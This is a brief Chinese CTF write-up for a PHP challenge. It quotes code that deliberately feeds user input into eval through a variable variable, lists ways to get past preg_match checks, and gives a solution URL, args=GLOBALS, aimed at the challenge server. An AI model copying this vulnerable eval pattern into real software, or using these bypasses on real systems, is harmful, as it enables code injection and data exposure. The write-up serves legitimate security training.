 ```javascript
flag In the variable ! <?php  

error_reporting(0);
include "flag1.php";
highlight_file(__file__);
if(isset($_GET['args'])){
    $args = $_GET['args'];
    if(!preg_match("/^\w+$/",$args)){
        die("args error!");
    }
    eval("var_dump($$args);");
}
?>
```

一开始以为这个题是要绕过正则表达式。preg_match有三个方式可以绕过，在这里再复习一下

1.数组绕过

2.当正则表达式结尾含，/m,^,$时会匹配结尾

可以采用/n绕过

3.最大回溯绕过

但是此题的关键为：

```javascript
eval("var_dump($$args);");
```

$$args可以采用变量覆盖，题目提示flag in the variable

可采用全局变量：

- 

- 

- 

- 

- 

- 

- 

- 

- 

*payload:*[*http://123.206.87.240:8004/index1.php?args=GLOBALS*](http://123.206.87.240:8004/index1.php?args=GLOBALS)